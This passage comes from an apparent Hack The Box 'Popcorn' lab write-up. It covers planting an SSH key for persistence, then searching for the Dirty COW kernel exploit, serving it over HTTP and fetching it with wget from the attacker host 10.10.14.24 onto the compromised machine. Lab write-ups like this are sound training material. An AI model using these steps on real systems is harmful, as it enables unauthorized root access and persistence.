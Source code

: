```bash
mkdir ~/.ssh
ssh-keygen -t rsa -N '' -f ~/.ssh/id_rsa
cat ~/.ssh/id_rsa.pub > ~/.ssh/authorized_keys
chmod -R 700 ~/.ssh
```

## Privilege Escalation (Dirty Cow CVE-2016-5195)

Search for a dirty cow exploit that will compile on the x86 system:

```none
$ searchsploit dirty cow
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page (1)                                                                                    | linux/dos/43199.c
Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page (2)                                                                                    | linux/dos/44305.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)                                        | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)                                           | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)                                                              | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)                                        | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method)                                                               | linux/local/40611.c
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

I then mirrored the `Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)` exploit:

```bash
searchsploit -m linux/local/40839.c
```

I then hosted the exploit on my local HTTP server with:

```bash
python3 -m http.server
```

And made the popcorn machine download it from my kali machine: 

```none
www-data@popcorn:/dev/shm$ wget http://10.10.14.24:8000/40839.c
--2020-09-06 23:04:38--  http://10.10.14.24:8000/40839.c
Connecting to 10.10.14.24:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/plain]
Saving to: `40839.c'

100%[==================================================================================================================================================>] 4,814       --.-K/s   in 0s

2020-09-06 23:04:39 (290 MB/s) - `40839.c' saved [4814/4814]
```
